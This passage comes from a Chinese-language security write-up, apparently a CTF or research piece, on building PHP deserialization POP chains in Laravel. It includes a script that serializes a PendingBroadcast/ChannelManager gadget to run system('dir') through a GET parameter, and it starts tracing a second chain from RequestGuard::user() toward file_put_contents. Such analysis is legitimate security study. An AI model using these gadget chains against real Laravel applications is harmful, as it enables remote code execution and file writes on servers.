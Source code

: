 ```
        `}`
    `}`
`}`

namespace `{`

    use Illuminate\Broadcasting\PendingBroadcast;
    use Illuminate\Notifications\ChannelManager;

    $b = new ChannelManager('system', 'dir');
    $a = new PendingBroadcast($b);
    echo urlencode(serialize($a));
`}`
```

然后GET传参 `?data=` 反序列化成功

[![](https://p0.ssl.qhimg.com/t01a920d559e6f06eb3.png)](https://p0.ssl.qhimg.com/t01a920d559e6f06eb3.png)



## POP链2*

**新思路: ** 紧接 POP链1, 既然只能传一个参数, 就想到了之前 Yii2 反序列化的类函数调用, 调用 public function 下包含 file_put_contents 且参数可控, 那么这样也就是

```
return $this-&gt;customCreators[$driver]($this-&gt;container);
// call_user_func['x'](new class x(), 'x');
```

call_user_func 传一个参数, 这个参数就是回调函数, 回调的时候访问该类中的其它函数执行, 但是该函数不可以包含任何形参且是 public (protected 和 private 自己自己调用), 也就是形成了调用其它类里不包含形参的任何方法

花了挺长时间的找这个, 在 Illuminate\Auth\RequestGuard.php 中

```
public function user()
    `{`
        // If we've already retrieved the user for the current request we can just
        // return it back immediately. We do not want to fetch the user data on
        // every call to this method because that would be tremendously slow.
        if (! is_null($this-&gt;user)) `{`
            return $this-&gt;user;
        `}`

        return $this-&gt;user = call_user_func(
            $this-&gt;callback, $this-&gt;request, $this-&gt;getProvider()
        );
    `}`
```

这个堪称完美, 参数均可控而且我们可以进行二次调用, 这一次我们可以多传两个参数(也就是 file_put_contents 有可能实现了), 于是全局搜索 public function 包含 file_put_contents 的, 也花了挺久, 在 Illuminate\Filesystem\Filesystem.php 中
